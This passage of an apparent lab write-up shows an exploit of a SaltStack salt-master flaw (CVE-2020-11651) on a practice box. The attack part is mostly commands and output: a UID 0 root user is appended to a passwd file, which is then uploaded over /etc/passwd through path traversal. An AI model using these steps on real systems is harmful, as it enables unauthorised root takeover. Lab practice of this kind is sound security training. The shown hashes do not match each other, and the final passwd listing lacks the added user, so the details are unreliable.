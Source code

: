 Then copied this to a make up passwd file and used openssl to get the password

openssl passwd password  
$1$b1F8C6ZX$L0hizE7xu7xoxPGXuQY801

and then add my own root user to the passwd file:

echo "enzy:$1$KRe3uMO6$4qefY5nveklizZBNTaycf1:0:0:root:/root:/bin/bash" >>passwd

Trying to upload the modified passwd file:

uv run 48421.py -m 192.168.194.62 --upload-src /home/enzy/Documents/offsecPGP/twiggy/passwd --upload-dest /etc/passwd
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
/home/enzy/Documents/offsecPGP/twiggy/.venv/lib/python3.13/site-packages/salt/transport/client.py:28: DeprecationWarning: This module is deprecated. Please use salt.channel.client instead.
  warn_until(
[+] Checking salt-master (192.168.194.62:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: MM+k7kuD8qK7uY/FCqn+L+gPc6ScqcoJBfVShUUA3KGay3i/woG7skNXpMmON4009lLtSZ9DRlk=
[-] Destination path must be relative; aborting

The path is not relative so let's try path traversal with this:

uv run 48421.py -m 192.168.194.62 --upload-src /home/enzy/Documents/offsec  
PGP/twiggy/passwd --upload-dest ../../../../../../../../../etc/passwd  
[!] Please only use this script to verify you have correctly patched systems y  
ou have permission to access. Hit ^C to abort.  
/home/enzy/Documents/offsecPGP/twiggy/.venv/lib/python3.13/site-packages/salt/  
transport/client.py:28: DeprecationWarning: This module is deprecated. Please  
use salt.channel.client instead.  
 warn_until(  
[+] Checking salt-master (192.168.194.62:4506) status... ONLINE  
[+] Checking if vulnerable to CVE-2020-11651... YES  
[*] root key obtained: MM+k7kuD8qK7uY/FCqn+L+gPc6ScqcoJBfVShUUA3KGay3i/woG7skN  
XpMmON4009lLtSZ9DRlk=  
[+] Attemping to upload /home/enzy/Documents/offsecPGP/twiggy/passwd to ../../  
../../../../../../../etc/passwd on 192.168.194.62  
[ ] Wrote data to file /srv/salt/../../../../../../../../../etc/passwd

let's check if it worked:

uv run 48421.py -m 192.168.194.62 --read /etc/passwd  
[!] Please only use this script to verify you have correctly patched systems y  
ou have permission to access. Hit ^C to abort.  
/home/enzy/Documents/offsecPGP/twiggy/.venv/lib/python3.13/site-packages/salt/  
transport/client.py:28: DeprecationWarning: This module is deprecated. Please  
use salt.channel.client instead.  
 warn_until(  
[+] Checking salt-master (192.168.194.62:4506) status... ONLINE  
[+] Checking if vulnerable to CVE-2020-11651... YES  
[*] root key obtained: MM+k7kuD8qK7uY/FCqn+L+gPc6ScqcoJBfVShUUA3KGay3i/woG7skN  
XpMmON4009lLtSZ9DRlk=  
[+] Attemping to read /etc/passwd from 192.168.194.62  
root:x:0:0:root:/root:/bin/bash  
bin:x:1:1:bin:/bin:/sbin/nologin  
daemon:x:2:2:daemon:/sbin:/sbin/nologin  
adm:x:3:4:adm:/var/adm:/sbin/nologin  
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin  
sync:x:5:0:sync:/sbin:/bin/sync  
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown  
halt:x:7:0:halt:/sbin:/sbin/halt  
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin  
operator:x:11:0:operator:/root:/sbin/nologin  
games:x:12:100:games:/usr/games:/sbin/nologin  
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin  
nobody:x:99:99:Nobody:/:/sbin/nologin  